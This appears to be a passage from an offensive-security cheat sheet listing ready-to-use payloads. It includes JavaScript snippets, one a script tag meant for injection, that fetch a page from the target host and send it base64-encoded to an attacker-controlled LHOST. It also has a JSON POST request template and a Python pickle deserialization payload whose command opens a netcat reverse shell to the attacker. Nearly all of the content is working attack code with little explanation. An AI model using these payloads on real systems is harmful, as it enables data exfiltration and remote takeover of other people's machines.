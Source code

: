 #### JavaScript (JS) Fetch Uniform Resource Locator (URL) and Base64 Encoding

```js
<script>fetch('http://<RHOST>/auth.php').then(r => r.text()).then(d => fetch("http://<LHOST>"+btoa(d)));</script>
```

```js
const Req1 = new XMLHttpRequest();
Req1.open("GET", "http://<RHOST>/index.php", true);

Req1.onload = function(Event) {
        const response = btoa(Req1.response);

        const Req2 = new XMLHttpRequest();
        Req2.open("GET", "http://<LHOST>/?"+response, true);
        Req2.send();
};
Req1.send();
```

### JavaScript Object Notation (JSON)

#### JavaScript Object Notation (JSON) POST Request with Authentication

```c
POST /<PATH> HTTP/1.1
Host: <RHOST>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
Content-Length: 95
Connection: close

{
  "auth":{
    "name":"<USERNAME>",
    "password":"<PASSWORD>"
  },
  "filename":"<FILE>"
}
```

### Python

#### Python Pickle Remote Code Execution (RCE)

```python
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat <LHOST> <LHOST> > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```
